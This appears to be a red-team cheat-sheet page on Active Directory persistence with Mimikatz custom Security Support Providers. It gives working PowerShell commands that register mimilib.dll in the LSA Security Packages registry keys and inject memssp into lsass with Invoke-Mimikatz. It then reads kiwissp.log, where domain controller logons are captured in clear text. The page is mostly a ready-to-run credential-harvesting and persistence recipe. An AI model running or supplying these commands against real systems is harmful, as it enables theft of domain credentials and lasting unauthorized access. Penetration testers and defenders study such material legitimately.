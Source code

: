 # Custom SSPs

## <mark style="color:red;">SSP</mark>

<mark style="color:green;">**A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. here we are using custom SSPs for persistence in Active Directory with Mimikatz.**</mark>

Mimikatz provdes custom SSP  `mimilib.dll`, This SSP logs local logons, service account and machine aacount passwords in clear text on the target server.

```powershell
# First way: drop mimilib.dll to system32 and add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | Select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages

# Second way: using mimikatz to inject into lsass (unstable with Server 2016)
Invoke-Mimikatz -Command '"misc::memssp"'

# All logons on the DC are logged to C:\Windows\system32\kiwissp.log
Get-Content C:\Windows\system32\kiwissp.log
```
